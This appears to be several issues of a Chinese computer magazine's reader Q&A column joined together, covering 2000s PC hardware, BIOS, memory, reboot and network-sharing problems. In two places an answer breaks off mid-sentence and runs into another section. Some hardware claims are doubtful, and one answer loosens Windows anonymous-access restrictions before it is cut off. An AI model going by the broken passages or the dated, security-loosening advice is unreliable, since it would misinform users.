答：CPU为您推荐的是Venice核心的AMD Athlon64 3000+（939针），这款CPU采用0.09微米制造工艺，实际运行频率1800MHz，系统前端总线1000MHz，64KB L1缓存，512KB L2缓存，集成MMX、SSE、SSE2，SSE3、3DNow和3DNow+等多媒体指令。而且该CPU还有良好的超频性能，已经成为很多发烧友的首选。

主板推荐华硕A8V DELUXE主板，该主板基于VIA K8T800 Pro芯片组，南桥芯片为VT8237，全面支持Socket 939接口的Athlon64处理器，这款主板板载VT6397 IEEE1394控制芯片，它自带的88E8001 32-Bit千兆以太网控制芯片还有网络唤醒功能，另外，802.11g无线网卡支持54Mbps 802.11g和WDS，板载的声卡芯片方面采用的是Realtek的ALC850，支持DTS音效和Dolby，同时还带有SPDIF功能。

## 什么是DVI接口

问：请问什么是DVI接口，它与普通的接口相比有什么优势？

答：计算机显卡处理的都是数字信息，因此在把帧缓存数据传给显示器之前必须先经过RAMDEC——数模转换器，把数字信号转换为模拟信号在传送出去，而在这个过程中就产生了信号的失真。
模拟信号产生之后，就要经由VGA电缆线（又一个信号失真源）传给显示器。如果你的显示器是数字设备，比如说液晶显示器等，而不是传统的CRT显示器，那么失真会更加严重——因为模拟信号还要再一次被转换为数字信号，这时就出现了DVI接口，英文全称是Digital Visual Interface。计算机中生成的图像信息传送到显示处理单元，经处理并编码成数据信号，通过3个通道输出，在接收端对接收到的数据进行解码，并处理生成图像信息供数字显示设备显示。在DVI标准中对接口的物理方式、电气指标、时钟方式、编码方式、传输方式、数据格式等进行了严格的定义和规范。
DVI传输标准可以保证计算机生成的图像真实和完整性，使液晶响应的速度更快，更流畅，使用DVI数字接口支持的传输距离更长。

## 为什么经常重启

问：一台计算机无故重启，而且经常出现死机现象，有时开机的时候还不能启动，提示：因以下文件损坏或丢失，windows无法启动：\windows\systems32\config\system。请问这是什么问题造成的，谢谢！！！

答：首先，我们建议您用最新的杀毒软件进行查毒工作。在排除了病毒因素之后，首先电脑不停的重启，要考虑您居住地的电压是否稳定，而且还要注意要将电脑的电源插座单独的插在一个插座上。然后查看您的计算机电源的功率是否够大，注意观察电源上的铭牌，如果您的计算机是奔腾4 2.8GHz以上的话+3.3V的橙色线应该在17A-20A。再有检查您的内存的兼容性，启动的时候丢失文件和内存性能的好坏关系很大！

## DVD光驱托盘弹出不到位

问：最近发现DVD光驱托盘在弹出和弹入时不能完全到位，必须用手推拉一下才行，请问这个问题该怎么解决？

答：DVD光驱托盘在弹出和弹入时不能完全到位，很可能是由DVD光驱内拖动托盘运动的皮带出现问题导致的。你可以用少许酒精精清理皮带及小齿轮上的灰尘和污垢。如果还不能解决问题，则有可能是光驱托架传动齿轮或皮带损坏，那就只能与厂商联系维修了。

## IBM T43笔记本更换硬盘后出现2010错误

问：IBM T43原配的40GB硬盘换成了日立60GB（Travelstar 5K80）硬盘，硬盘型号是hts548060m9at00。
启动的时候报错：
ERROR
2010:warning:your internal hard disk drive(HDD) may not function correctly on this system..
Ensure that your HDD is supported on this system and that the latest HDD firmware is installed.
Press <esc> to continue
Press <F1>to setup
该如何解决这个问题呢？

答：非T43原装硬盘加装到T43上后开机自检时会报2010错误，产生原因是T43新版BIOS对硬盘的支持有所变化。解决办法如下所述。
- 将T43的BIOS版本降到1.02。上IBM网站下载这个版本的BIOS。然后按照提示刷新BIOS，这个方法适合各种自行加装的硬盘，但是存在一定风险性，操作时请注意安全。
- 升级硬盘firmware。根据硬盘类型在相应网站上查找对应的升级firmware。例如，日立网站相关链接为http://www.hitachigst.com/hdd/support/table2.htm。这种方法的缺点是：可供选择的升级程序不多，比如无希捷硬盘的firmware，而且升级硬盘firmware时风险较大。所以不建议采用这种方式。

## 给64位Windows XP系统减肥

问：我的电脑配置是P4 2.4GHz CPU、80GB硬盘、1GB内存，安装了64位的Windows XP后，还没安装任何应用程序，但系统盘的空间占用竟达3.0GB，这是为什么？怎样解决？

答：内存容量为1GB，问题就出在这里。自Windows 2000以后，Windows系统采用了页面文件(在Windows 98下叫“虚拟内存”)来提高系统性能。它将一部分硬盘空间设置为虚拟内存，从而扩大了计算机的可用“内存”空间来满足程序运行的要求。页面文件的大小至少是物理内存的1.5倍。也就是说，仅这个文件就将占用系统盘1.5GB以上的空间。
页面文件是不能被手动删除的，只能将它移动到其他分区中。右击My computer(我的电脑)→Properties(属性)→Advanced(高级)。在打开的对话框中单击Performance(性能)下的Setting(设置)，再在打开的对话框中单击Advanced(高级)，接着单击Virtual Memory(虚拟内存)，就能看到虚拟内存设置界面了。将pagefile.sys文件移动到D盘，重启后生效。可在D盘根目录下找到pagefile.sys文件。同时C盘下的同名文件会自动消失，C盘的空间占用恢复到了1.5GB左右。

## 映泰M7NCG400主板集成显卡性能为何低下

问：我用的是映泰M7NCG400主板，这款主板在宣传中称其北桥集成了nVIDIA GeForce4 MX核心，性能相当于nVIDIA MX440显卡，而我在玩游戏的过程中却感觉到根本不是这么回事，用3D Mark 2003一测，数据果然远低于nVIDIA MX440显卡，请问这是怎么回事，是我设置有问题，还是厂家虚假宣传？

答：厂家没有虚假宣传，造成集成显卡性能低下的原因是因为您的主板没有开通双通道DDR模式。映泰M7NCG400的集成显卡在开通双通道模式（128bit）的情况下，比单通道模式（64bit）下性能提升了30%，可达到nVIDIA MX440显卡的水准。
开通双通道DDR模式的方法很简单：建议使用两条同品牌同型号的内存，如两条256MB DDR 400的Kingston内存，M7NCG400主板上有三条内存插槽，在隔得较远的内存# 硬盘重新分区后NEC E2000的SmartRestore功能失效

问：购买的NEC E2000笔记本，硬盘只有一个分区，我给硬盘重新分区（共3个分区），并且没有损坏隐藏分区。此后，在使用NEC笔记本的SmartRestore（一键恢复）功能时出错，导致系统崩溃，请问这是什么原因，该怎么解决？

答：和NEC的客服沟通得知：NEC不建议给笔记本硬盘重新分区，否则容易造成SmartRestore功能出错，导致系统崩溃。如果一定要给NEC笔记本硬盘分区的话，建议使用PartitionMagic DOS版。您可以将笔记本拿到客服去解决问题，也可以自己动手重装操作系统。如果还想要使用一键恢复功能，可以选择一些一键恢复软件，比如“一键恢复精灵”。

# DVD在播放刻录的音频CD时有噪音

问：我使用DVD在播放刻录的音频CD时有噪音，请问这是什么原因？

答：在刻录时，如果系统或光驱工作不稳定，被刻录的音频CD中就会有噪音。首先可以尝试使用低速刻录的方式。此外，在硬盘中建立源盘内容的镜像，然后再刻录音频CD对降低噪音应该也有缓解的作用。

# 硬盘故障导致系统频繁死机

问：我的电脑配置：CPU：PⅢ 600、主板：微星MS-6323、内存：256MB、硬盘：IBM，一直使用正常，最近出现运行时蓝屏死机的现象，更换内存、电源、显卡等配件问题依旧，请问该如何解决？（天津 王磊）

答：该问题通常是因为硬盘出现坏道导致电脑出现频繁死机的症状。几年前的IBM硬盘使用了玻璃片基，出现问题的几率较大。请首先用系统自带的“磁盘扫描程序”对硬盘进行“完全扫描”，如果有明显的坏道就能够检测出来。若检测没有问题，那么请去http://www.hgst.com/下载IBM硬盘专用检测工具：DFT（Drive Fitness Test， DFT32-V330.EXE），下载安装后根据提示做一张有DFT Utilities的启动盘。通过启动盘启动后进入DFT，接着运行Fitness test中的“Advanced Test”，运行完以后会出现一个红色的测试结果页面，如果有问题的话可以选择左边的“Run Erase Disk”进行低级格式化。格式化完毕后再对硬盘重新分区并高级格式化、安装系统，如果依然出现死机的问题就只有更换硬盘。

# 升级内存造成计算机运行不稳定

问：一台计算机基本配置：CPU：PIII600、主板：BX芯片组、内存：128MB、硬盘：40GB，最近买了一条二手的HY 128MB PC133内存，安装后计算机经常蓝屏，开始我认为是内存混用不兼容的问题，但我拔下旧内存后问题依旧，请问这是什么问题造成的？

答：早期生产的PC133内存条，只要在CAS=3的情况下能够稳定运行在133MHz即为合格产品。随着内存条制造技术的不断成熟和提高，后期推出的PC133内存条可以在CAS=2的条件下正常工作。因此，首先进入BIOS检查一下内存CAS参数的设置，如果是2就将它降为3后再作测试。假如系统仍然不稳定，恐怕就只有降频使用或重新更换内存。

# 计算机自动重新启动的原因

问：一台计算机，总是会自动重新启动，而且越来越频繁，请问该如何解决？

答：造成计算机重新启动的原因很多，首先，电源问题：电源是引起系统自动重启的最大嫌疑之一。劣质的电源不能提供足够的电量，当系统中的设备增多，功耗变大，劣质电源输出的电压就会急剧降低，最终导致系统工作不稳定，出现自动重启现象。电压起伏过大还有可能导致硬盘等设备的损坏。您只要更换一款电源就可以解决。其次，内存问题：内存出现问题也会导致系统重启。内存出错导致系统重启的几率相对较大。排除内存条与插槽接触不良的情况外，应该怀疑内存本身出现质量问题。另外，把内存的CL值设置得太小也会导致内存不稳定，造成系统自动重启。简单的解决办法：如果用的是SDRAM，就把CL值设为3，如果用的是DDR，就设置为2.5。如果用的是VIA芯片组的主板，建议关闭内存交错执行功能。再次，系统运行时的温度过高。此时应该检查CPU的风扇是否运转正常，散热条件是否良好。现在的主板都通过专门的控制芯片具备了在BIOS中检测CPU以及系统温度的功能。如果发现温度过高，就应该及时维修或者更换风扇。最后，硬件的兼容问题。一般由主板与内存条的兼容性引起，但是笔者也遇到过显卡与主板兼容问题导致系统不断重启的例子，所以大家在购买新配件的时候，最好是对其有足够的了解。

# 如何安装SATA驱动

问：我想问一下，安装SATA硬盘需要软盘加载驱动吗？

答：首先，这里要说明的是，SATA驱动并不是指硬盘的驱动，而是指SATA控制器驱动，SATA控制器分为主板芯片组内置和额外添加的第三方控制芯片两类，各厂家的驱动不能通用。各厂家都有不同的设计，在BIOS设置中就可看出不同，Intel、VIA、SiS、nVIDIA主板芯片的SATA控制器部分就不同，更别说其他的第三方控制器了，所以近期也不太可能有统一的驱动。一般主板都会附带驱动软盘，但也有些提供主板驱动光盘的，需要将SATA驱动文件拷贝到软盘。还有的是需要用主板光盘的特定程序制作SATA驱动软盘，这点需要看主板说明书上的相关说明！

# 一台计算机上同时使用两台显示器

问：我想用两台显示器来同时连接一台计算机，请问该如何连接？

答：首先，您的显卡必须支持双显示器，您只需要将两个显示器分别连接到显卡的两个VGA接口就可以了，至于其中一个显示器的连接线比较长，您可以到电脑商场购买一根视频信号延长线就可以解决。如果您的显卡不支持双显示器的话，那么您就需要购买一个VGA分频器，使用方法也比较简单，将显卡的输出信号连接到分频器上，然后分别将两台显示器连接到分频器上，问题就可以解决。

# 无法正常关机

问：一台计算机的基本配置如下：CPU：赛扬1.8GHz、内存：512MB DDR400，使用Windows XP操作系统，从“开始”正常关机，居然重新启动。每次只能按POWER键几秒钟才能关机，主板BIOS为默认设置，请问是什么问题造成的？（天唯创造）

答：有些使用AMI的主板BIOS的高级电源管理不能被Windows XP操作系统很好的支持，解决的办法是升级你的主板的BIOS，具体刷新主板BIOS的方法可以参看以前的《电脑爱好者》。还有，如果您全新安装Windows XP操作系统，后没出现关机问题，应该就是您安装的其它软件的兼容性问题，如有可能尽量使用最新版本的软件。软件不兼容，常常会引起关机重起的问题。您可以通过以下的方法来设置您的电源选项：右键单击“我的电脑”，选择“属性→高级”选项卡，找到“启动和故障恢复”，单击“设置”按钮，去掉“系统失败”中的“自动重新启动”前的对勾，问题即可解决。

# 为什么CRT显示器抖动

问：一台计算机的CRT显示器屏幕一直在抖动，进入主板BIOS界面更是明显，请问这是什么问题造成的？

答：造成显示器屏幕抖动的原因：首先，显示器刷新频率设置得太低，当显示器的刷新频率设置低于75Hz时，屏幕常会出现抖动、闪烁的现象，把刷新率适当调高，比如设置成高于85Hz，屏幕抖动的现象一般不会再出现。不过您的刷新率已经为75Hz，可以排除这个可能。其次，电源变压器离显示器和机箱太近，电源变压器工作时会造成较大的电磁干扰，从而造成屏幕抖动。把电源变压器放在远离机箱和显示器的地方，可以让问题迎刃而解。看一下您是否符合这个问题。再次，劣质电源或电源设备已经老化，许多杂牌电脑电源所使用的元件做工、用料均很差，易造成电脑的电路不畅或供电能力跟不上，当系统繁忙时，显示器尤其会出现屏幕抖动的现象。电脑的电源设备开始老化时，也容易造成相同的问题。

# 计算机无故断电

问：一台计算机最近出现无故断电的现象，断电后显示器指示灯、键盘指示灯亮着。硬盘灯不亮，请问是什么问题造成的？

答：计算机出现自动断电的现象的原因很多，下面我们就给您具体介绍一下。首先，我们不清楚您是否是一个网民，如果您经常上网的话，那么就很有可能是病毒造成的，建议您及时的升级您的杀毒软件，然后对您的计算机进行一次全面的检查。再有，既然是无故的断电，那很可能是供电方面出了问题，您可以检查一下您的电源和电源插座，有条件的话可以先找来其他电源替换一下试试。此外，留意一下家里的电网电压是不是受到邻居装修、烧焊的影响。同时还要将电脑插座与冰箱、彩电、微波炉等分开。要还是不行的话，建议你将电脑送到专门的电脑售后服务中心进行检修，如果是组装机的话，你可以先将主板送去售后服务中心检查一下，看看是不是主板的供电电路出了问题。

# 计算机蓝屏问题的解决

问：一台计算机，使用Windows 2000操作系统，最近经常出现蓝屏问题，然后就黑屏无显示，主机的电源灯长亮，重新安装操作系统，问题依旧，请问是什么问题造成的？

答：该问题可能是由于硬盘造成的，您可以用磁盘扫描系统进行一次彻底的扫描，如果有坏道可以考虑在分区的时候把坏道分出去，然后重新安装系统。最好不要再次安装到从前的那个分区上，比如您现在的系统分区是C盘，那么您可以安装到D盘或者其它分区。还有一种可能就是CPU散热问题，建议您检查CPU风扇的转速是否正常，另外，硬盘的数据线故障可能会造成故障，因为有时候数据线老化也可能造成计算机运行不稳定。

# 如何检测多处理器

问：一台服务器，在主板BIOS中看到有两个CPU，但是Windows优化大师显示只有一个，请问这是什么问题造成的？

答：Windows优化大师自身设计上的原因，您可以在优化大师的帮助里找到有关的信息，或者您将优化大师升级到比较新的版本。再有您可以按CTRL+ALT+DEL调出任务管理器，然后进入任务管理器，单击“性能”，然后观察CPU使用记录，如果看到曲线图是两条线的话，那么可以肯定您的CPU是双CPU。

# DVD刻录机不读刻录盘及刻录慢

问：一台DVD光驱，现在不能读DVD的刻录盘，请问是什么问题造成的？另外我用的外置DVD刻录机，发现刻录4.7GB盘要花100分钟，请问是不是正常现象？

答：您的光驱如果是最近不读DVD刻录盘，那么应该可能是光驱的光头上有尘土堆积或者光头老化。如果只是尘土堆积的话，您可以用皮老虎和镜头纸清洁一下DVD的激光头。要是激光头老化的话，那么就没有办法了。

关于刻录DVD速度比较慢的问题，这与很多因素有关，如系统、软件及刻录速度的选择等。如果你的系统本身就已经开启了很多程序，负荷很大的话，请在刻录之前重新启动一次。另外，外置刻录机的速度、接口及本身刻录性能都会直接影响你的刻录时间。如果你的刻录机是4X的，并且接口是工作在USB1.1状态下时，刻录一张DVD需要100分钟也算是正常的。另外，就算你的外置刻录机接口是USB2.0，由于需要在IDE和USB之间进行转换，通常也会明显降低刻录机的性能。最后，建议你检查一下你所选择的刻录速度是否是刻录机的最高速度。

# 增加内存后系统变得不稳定

问：一台计算机配置为：AMD Athlon XP 2600+、512MB PC3500 DDR SDRAM、ABit nf7-s、ELSA 960fx pro，最近买了一条Kingmax DDR400 PC3200，出现问题：玩游戏，不到半小时就自动退出，开机久一点就会蓝屏，请问是什么问题造成的？

答：这个问题应该是一个比较明显的硬件兼容性的问题，在硬件兼容性方面，又尤其以内存的兼容性问题最为突出。一般内存不兼容的情况包括：主板和某品牌的内存不兼容、不同品牌内存之间的不兼容、相同品牌不同型号或者频率的内存之间不兼容，甚至还会出现不同容量内存不兼容以及内存单双面之间不兼容的现象。

您原来的内存型号为PC3500，而新买的内存型号为PC3200，这很可能就出现了内存不兼容的现象。内存不兼容的问题是很难排除的，一般来讲都是更换其他型号的内存来解决。不过您也可以尝试把内存条的位置互换一下，或者更换到其他的插槽上试验一下，问题也许可以解决。

# 什么是CPU和主板的工作频率

问：我是菜鸟，有一些问题不太清楚，所以想请教一下。CPU的外频、主板的前端总线频率、内存的时钟频率，这些参数是什么意思？

答：CPU的外频、主板的系统总线频率、内存的时钟频率，是标称各个配件不同工作频率的数值，他们之间没有什么本质的联系，CPU的外频通常为系统总线的工作频率，CPU与周边设备传输数据的频率，具体是指CPU到芯片组之间的总线速度。外频是CPU与主板之间同步运行的速度，而且目前的绝大部分电脑系统中中外频，也是内存与主板之间的同步运行的速度，在这种方式下，可以理解为CPU的外频直接与内存相连通，实现两者间的同步运行状态。主板的前端总线是指：将CPU与内存芯片以及与之通信的设备连接起来的硬件通道。前端总线将CPU连接到主内存和通向磁盘驱动器、调制解调器以及网卡这类系统部件的外设总线。系统总线频率则是前端总线工作的频率。

# 机箱警报所为何因

问：一台计算机基本配置如下：Pentium 4 1.7GHz、512MB、80GB硬盘。只要玩一会网络游戏，机箱内就会发出报警的声音，请问这是什么问题造成的？

答：这种问题一般都是电脑的散热系统出了故障，散热效果不好，使得整个系统温度或CPU的温度达到主板BIOS中所设定的温度警报上限所造成的。很显然，当你的系统在运行网络游戏时，硬件系统工作在高负荷状态下，硬件本身温度升高而又得不到良好的散热，由此发出高温警报。这时，你应该检查一下机箱中的温度是否正常（主要看CPU），再看看机箱内的散热器是否正常工作。此外，还可以检查一下BIOS中你所设定的温度警报上限是否太低，一般来说该值设定在75～80摄氏度比较合适。

# 计算机长时间关机难以启动

问：一台计算机精英815EP主板，长时间断电后，开机无法点亮，屏幕无显示，硬盘和电源指示灯长亮。等待几十分钟后硬盘才启动，出现BIOS画面，进入系统后一切正常。有时出现CMOS信息丢失，原以为是CMOS电池的问题，但在更换电池后故障依旧。这个问题只在长时间关机后出现，每天开机的话就没问题，请问是什么问题造成的？

答：该问题应该和主板的BIOS有关系，您可以先更换BIOS的纽扣电池。如果故障依然没有排除，那就说明这不是电池供电不足引起的CMOS丢失，可能是主板自身电路的问题了。这时最好的解决办法就是将主板送到厂家的售后服务中心去检测维修。如果你不想修理的话，可以尝试着在BIOS中开启键盘开机等功能，并且每次关机之后不要断开电脑的电源。这样就能保持主板在系统关闭时仍然保持部分电力供应。不过，这是没有办法中的办法，并不能保证每一款主板都适用的。

# 超频设置对吗？

问：前几天我玩了下超频（电脑配置：AMD2500+，昂达 nf4s 的主板，金士顿 512m，七彩虹 x550 显卡），我设置成 CPU 的外频275m，HT：x3，内存的频率为166MHz，不知是否合理呀？

答：由于K8处理器整合了内存控制器，因此超频时内存的工作频率也能相应提高，我们可以通过以下公式粗略估算超频时内存的实际运行频率：
```
内存频率 = 实际外频 x BIOS 里设置的内存频率/200
```
通过公式可以得知您的内存实际工作频率约为456MHz，除非是专门为超频设计的内存，普通产品能在此频率下稳定工作的并不多。在超频AMD2500+时，我们建议您先把内存设置成异步133MHz，测试出CPU的超频潜力，然后再根据实际情况确定是否将内存设置成异步166MHz。

# AMD与英特尔的抉择

问：小编你好！我想买一台64位处理器的电脑，但在英特尔和AMD之间难以抉择，请您帮我分析对比一下，谢谢。

答：现在64位平台可供选择的CPU也比较多了，我们还是分别从入门级和主流级两个档次进行分析吧。

-   首先是入门级的：AMD方面无疑首推Sempron 2500+，Sempron 2500+虽然主频只有1.4GHz，但得益于优秀的架构，性能与英特尔同类产品相比毫不逊色。而且Sempron 2500+超频潜力不错，相当部分可以超频至300MHz外频，性价比尤其突出。而与Sempron 2500+定位相仿的则是英特尔的Celeron D 326和Celeron D 331。无论是默认性能、超频性能还是发热量控制方面，它们都不及Sempron 2500+，如果你不是非英特尔不选的话，DIY入门级处理器我们强烈推荐Sempron 2500+。
-   其次是主流方面的：AMD比较值得关注的是Athlon64 3000+，采用Socket 939接口，默然频率1.8GHz，支持双通道内存，性能相当强悍，超频潜力也不错，目前报价为1099元，是主流处理器出货量最大的处理器之一；英特尔方面目前比较热门的主流处理器是Pentium 4 506（2.66GHz）和Pentium 4 630（3.0GHz），后者默认频率下性能已经相当强悍，但价格相对较高，报价在1400元以上，适合不超频、需要性能稳定的用户。Pentium 4 506虽然默认频率较低，但由于前端总线只有533MHz，超频潜力较大，部分可以直接超至800MHz前端总线，因此一上市就受到超频爱好者们的关注，而且价格也较为平易近人，约为900元。

就目前两大阵营的处理器表现来看，我们更推荐采用AMD平台，不仅仅是因为性能稍胜一筹，更重要的是，Pentium 4的发热量实在是大了些。

# 主机为何无限重启？

问：编辑同志们你们好！我的机子配置是：CPU：Pentium 4 2.4C，内存：Kingston 256MB×2（双通道开启内存，颗粒编号为hy5du56822bt-d43和hy5du56822bt-d43各一条；前者为单条双面，后者为单条单面），主板：MSI 865PE NEO2-PFS（白金版），显卡：铭瑄ATi9550黄金版2代（双128 三星3.6纳秒显存）。机子的故障是在重装Windows XP SP2和驱动后，系统无限重启（驱动为5.7）。后来更换一条内存后问题得到暂时解决，但几天后同样故障再次出现，后来我把机子拿到鼎好的商科去检测，到人家那却又什么毛病都没有了。可回家后又出现问题，就是玩CSS时不定期出现自动退出游戏，显示XXXX内存不能为read？还有玩极品飞车8地下狂飙时会突然重启（也不定期），帮帮我好吗？确认一下是什么问题，我现在开机都有阴影了。

答：这台电脑的“病症”比较复杂，需要通过详细检测才能确定病因，建议从杀毒开始。先软后硬，用替换法逐步排除故障。不过我们建议你先格式化并重装系统，如果问题依然存在的话，先替换你的电源插座，再替换电源，再替换内存和显卡，如果还是不行的话，只有替换主板。MSI这款865PE白金版的品质并不如其名字那么让人值得信赖，我已经见过多块这个型号的主板出现诸如USB兼容性、内存兼容性、无故冷重启等莫名其妙的故障了。

# 升级内存注意兼容性

问：我的电脑主机配置是 Sempron 2500+，KingMax 256MB DDR400 内存，升技 NF8-V2 主板，希捷 7200.7 80GB 硬盘，华硕 9550 显卡，最近升级加了一条 512MB 的 DDR 400 内存，结果在玩魔兽时经常会出错，但我把内存拿到商家处检测时又一切正常，我该怎么办？

答：由于Sempron 2500+整合内存控制器，因此比较“挑”内存，在使用两条内存时尽量采用同一品牌同一规格的产品，像您这种情况是典型的内存兼容问题，建议尝试增加内存电压和降低内存时序/运行频率，如果还是不行，可以和经销商交涉，看看是否能更换为同一个品牌的内存。如果还是不行，那只好把256MB的那条卖掉了。

# 计算机自动关闭的原因

问：一台计算机，经常出现自动关机现象，而且自动关机的次数越来越频繁，请问该怎么解决？

答：计算机自动关机主要由以下几点造成：首先，当内存与主板插槽接触松动时有可能引起电脑自动关机，建议你检查内存是否和主板插紧。其次，电源的供电不足也是一个引起电脑自动关机的重要因素，但从你的配置来看，这个问题存在的可能性很小。再次，由于病毒或木马所引起的电脑关机也比比皆是，尤其是冲击波，中了该病毒之后便会导致系统的重启与关机。如果你使用的是Windows 2000或Windows XP系统，建议你在用杀毒软件杀毒之后及时打上微软提供的SP2（For Windows XP）/SP4（For Windows 2000）补丁，一般问题就可以解决。

# 为何开机就会自动进入BIOS

问：一台计算机每次启动都会自动进入主板BIOS设置界面，请问这是什么原因？

# 傻博士

## 网络

主板BIOS，更换BIOS电池，问题依旧，检测硬盘，没有发现坏道，另外，每次开机都会黑屏30秒左右，请问是什么问题造成的？

答:开机自动进入主板BIOS，应该是主板BIOS的设置出现问题，一些主板的BIOS在设计的时候，为了更人性化一些，加入了一些特殊的功能，比如语音提示，又或者是类似你所描述的:当BIOS的设置不正确的时候，就会自动进入BIOS。如果是这个原因的话，更换电池也是无效的。

你可以根据你的主板说明书来恢复一下BIOS的默认设置，一般进入BIOS选择Load Fail-Safe Defaults或Load Optimized Defaults，保存退出即可。而你提到的，每次开机都会黑屏30秒左右的问题也可能就是BIOS设置不正确引起的，比如BIOS中将软驱设置为3.5英寸盘，如果你的计算机上没有连接软驱，那么就会经过很长的一段检测时间。

## 7.2MB是否为硬盘的着陆区

问:金钻九代80GB硬盘，一直使用正常，用SFDisk检测硬盘，却发现除了已知的主分区和逻辑分区以外，还有一个分区，类型: Pri/Log、文件系统:Free、容量:7.2 MB、状态:未格式化，请问这是“磁头着陆区”吗？

答:该分区应该不是一般意义上的“磁头着陆区”，而只是一个很普通的分区，我们一般所说的“磁头着陆区”是指磁盘上的一个特定的区域，这个区域并不是以分区的形式表现的，并且它也不以任何形式表现，而是看不见、摸不着的一个磁盘上的特殊区域。那这个分区是怎么来的呢？在你刚刚购买了新的硬盘后，需要给它分区，然后安装操作系统，由于FDISK对于大硬盘支持不是很好，所以在分区的时候会留下一个7.2 MB或8MB的分区，如果你直接安装例如Windows 2000或者Windows XP这样的操作系统，那么在安装过程中，创建分区的时候，也会留下一个7.2MB的分区。关于这个分区没有什么特殊的，你大可以不必理会它。如果觉得不舒服完全可以用PQ等分区工具将其合并到其他分区上去。

## 开机后有警报音

问:一台计算机，启动后开机就有警报声，请问这是什么问题造成的？

答:开机警报音是厂商设计的一种智能化的功能，它的声音是有长短之分的。我们以Award BIOS为例:当你听到2个连续短音是常规错误。1个长音接1个短音是显示器或显卡错误。这里我们给你介绍一个有关这方面的网站:http://www.anhua.net/bbs/3b0.asp?gb_id=6182这里面介绍了各种主板型号及警报音的辨别。你可以根据你所听到的警报声音的种类在这个网站上查找相关的问题。

## 不同核心的区别

问:我想问一下采用Palermo核心和采用Wincheste核心的AMD Sempron 2600+ CPU有什么不同？

答:首先，最大的不同是Palermo核心是Wincheste核心的升级。也就是说采用Palermo核心的AMD Sempron 2600+的性能更高。

采用Wincheste核心的CPU更早上市，因此它只能支持400MHz的前端总线，这也是与当时的那一代主板相适应的。而随后上市的Palermo核心的AMD Sempron 2600+ CPU则支持更多更新的技术。除了前端总线的支持提升到800MHz以外，90纳米的制造工艺，1.4V的工作电压，使得它的发热量更小，相应工作起来可以更安静。另外，采用Palermo核心的AMD Sempron 2600+ CPU由于使用了更新的制程步进，使得它的成品率得到很大的提高，同时带来的就是同样频率情况下超频更容易，达到高主频更简单。如果与一些“超频专用”主板搭配使用的话，可以获得更高的性价比。

## 弹出认证窗口停滞影响浏览效率

辽宁读者史红刚问:我在使用IE浏览网页时经常会弹出一些让我进行认证的对话框，每次遇到这个情况时系统就会停滞一段时间，非常影响使用，而禁止了ActiveX控件后虽然能将这些对话框屏蔽掉，但有时访问银行网站或Flash等那些需要安装插件才能正常浏览的网站时就不能正常工作了。请问该如何解决？

答:由于这些插件是安装一次就可以永久性使用的，因此在需要安装插件的时候，你可以先把ActiveX控件启动，等安装完成后再禁止就可以了。另外有一个叫Anti ActiveX nags的软件，它可以屏蔽42种扰人的窗口，基本上可以摆脱认证对话框的困扰。下载地址是:http://www.onlinedown.net/soft/28775.htm。

## 下载的一个页面为何没有包含图片

北京读者杨德新问:我使用FlashGet下载的页面文件为何没有该页面连接的图片？

答:FlashGet等下载软件与浏览器的“另存为”的功能不同:浏览器的“另存为”的功能可以一次将页面的所有元素保存下载;下载软件基本的下载单元是对于单个文件进行下载，尽管可以多线程或多块下载，那只是它的成批下载功能。如果想要下载页面中连接的图片，可以在FlashGet中显示该文件所有连接的窗口中选定添加到下载列表中再成批下载。如果想一次下载一个页面的所有内容，只需用浏览器的“另存为”功能将文件存为mht格式即可;如果想一次下载多个页面的所有内容，需要安装离线浏览器工具软件(如Teleport、WebZip等)。

## Windows 98下ADSL虚拟拨号自动化

江苏读者王磊问:我是使用ADSL虚拟拨号接入宽带的，最令我头疼的是每次上网都需要拨号，断线后还需要重新拨号。请问如何才能让拨号实现自动化？我所用的操作系统是Windows98。

答:选择好软件并进行简单设置，就可以做到一劳永逸！下面以Windows 98下使用RASPPPoE拨号软件为例进行介绍，其他拨号软件的设置与使用方法与此大同小异。首先，确保你已经安装了RASPPPoE，并确保它工作正常。

到http://service.seeder.net/dialup/CiDial23.exe下载一款名为CiDial的免费小软件。安装该软件并运行，单击“File→Settings”菜单，在“Connection”下拉列表框中选择RASPPPoE在拨号网络中的名称，在“User name”处填写你的上网账号，在“Password”处输入密码，单击“OK”按钮。

为CiDial建立一个桌面快捷方式，然后将该图标拖动到“开始→程序→启动”里面。重启你的机器就会发现已经能自动拨号上网了。不仅如此，当由于各种原因断线时，CiDial会利用设置的RASPPPoE自动重新功能去尝试重新连接。

如果你使用的是WinPoET、EnterNet等拨号软件，要实现开机自动拨号上网和断线重拨，只需在拨号软件的“Option→Settings”里面，勾选“Auto-connect”和“Launch when windows startup”两项即可。

## 解决大于4GB文件的下载问题

甘肃读者郝富国问:我想下载网页上连接的一个4GB多的大文件，请问用什么办法能够实现快速下载？

答:可以用网际快车FlashGet 1.65(含1.65)以上版本来实现。FlashGet从该版本开始支持超过4GB的文件的下载。需要特别注意的是，支持下载的文件大小与使用的磁盘文件格式有关:如果你还是使用老的FAT格式，只能支持2GB的文件下载;FAT32格式支持4GB文件下载;而NTFS格式对文件大小没有限制。

## 不同操作系统间的远程管理问题

南京读者管宇军问:我单位的老局域网系统在原有Windows 98的基础上又安装了一些Windows 2000 Professional，原先在Windows 98下只要把控制面板的“密码”项里的“远程管理服务”启用，到其他机子上输入密码就可远程访问该机所有资源了，但是在Windows 2000下打开“网上邻居”选中某一台机器，属性里却没有“管理程序”这一项，同样在Windows 98里也不能访问到Windows 2000系统里的非共享资源，如何解决？

答:“远程管理服务”只有在Windows 95(安装Windows 95远程管理服务后)、Windows 98中才有。在Windows 2000/2003 Server中使用“终端服务”，在Windows XP中使用远程桌面，均可对计算机进行远程管理。若要在不同系统间实现远程管理，可以通过安装远程管理软件，如WinVNC、pcAnywhere等来实现。

## 无法访问某局域网计算机的共享目录

问:我们公司的局域网中，有台计算机A，可以访问其他计算机的共享目录，但所有其他计算机均无法访问A计算机的共享目录，访问时出现提示信息“无法访问。你可能没有权限使用网络资源。请与这台服务器的管理员联系以查明您是否有访问权限。”(见图)本来一切正常，前几天才出现的这个问题，计算机A的系统是Windows 2000专业版，没有安装防火墙。请问如何解决这个问题？

答:这多半是由于某些病毒或者木马程序在感染系统后，关闭了计算机A的ipc$和默认共享，你的计算机A没有安装防火墙，这种情况很容易出现，但即便是你安装了Norton等大名鼎鼎的安全软件，一样可能出现这样的问题。解决方法如下:

- 第一步:打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]，将“RestrictAnonymous”的REG_DWORD的键值改为0;
